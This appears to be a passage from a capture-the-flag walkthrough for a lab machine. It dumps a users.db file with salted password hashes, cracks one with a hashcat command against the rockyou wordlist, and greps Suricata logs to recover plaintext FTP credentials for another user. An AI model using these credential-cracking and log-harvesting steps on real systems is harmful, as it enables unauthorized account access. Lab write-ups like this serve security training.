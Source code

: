 The users.db file contains a hash for the user "adam". We can attempt to crack it using hashcat, John the Ripper, or any other preferred tool.

```
����P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)�3�EtableusersusersCREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL UNIQUE,
    password TEXT NOT NULL,
    role TEXT DEFAULT 'user'
,�,##w��h�=adamsha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43webdevh�=adminsha256$nypGJ02XBnkIQK71$f0e11dc8ad21242b550cc8a3c27baaf1022b6522afaadbfa92bd612513e9b606admin
������

```

After cracking the hash for user "adam" using hashcat with the command:

```bash
hashcat.exe -m 30120 myhash.txt rockyou.txt
```

The credentials for user "adam" are:

```
username: adam
password: adam gray
```

I conducted further enumeration and discovered valid credentials for another user.

```bash
dev_acc@intuition:/$ zgrep -i lopez /var/log/suricata/*.gz
/var/log/suricata/eve.json.7.gz:{"timestamp":"2023-09-28T17:43:36.099184+0000","flow_id":1988487100549589,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":37522,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":1,"community_id":"1:SLaZvboBWDjwD/SXu/SOOcdHzV8=","ftp":{"command":"USER","command_data":"lopez","completion_code":["331"],"reply":["Username ok, send password."],"reply_received":"yes"}}
/var/log/suricata/eve.json.7.gz:{"timestamp":"2023-09-28T17:43:52.999165+0000","flow_id":1988487100549589,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":37522,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":2,"community_id":"1:SLaZvboBWDjwD/SXu/SOOcdHzV8=","ftp":{"command":"PASS","command_data":"Lopezzz1992%123","completion_code":["530"],"reply":["Authentication failed."],"reply_received":"yes"}}
/var/log/suricata/eve.json.7.gz:{"timestamp":"2023-09-28T17:44:32.133372+0000","flow_id":1218304978677234,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":45760,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":1,"community_id":"1:hzLyTSoEJFiGcXoVyvk2lbJlaF0=","ftp":{"command":"USER","command_data":"lopez","completion_code":["331"],"reply":["Username ok, send password."],"reply_received":"yes"}}
/var/log/suricata/eve.json.7.gz:{"timestamp":"2023-09-28T17:44:48.188361+0000","flow_id":1218304978677234,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":45760,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":2,"community_id":"1:hzLyTSoEJFiGcXoVyvk2lbJlaF0=","ftp":{"command":"PASS","command_data":"Lopezz1992%123","completion_code":["230"],"reply":["Login successful."],"reply_received":"yes"}}
```
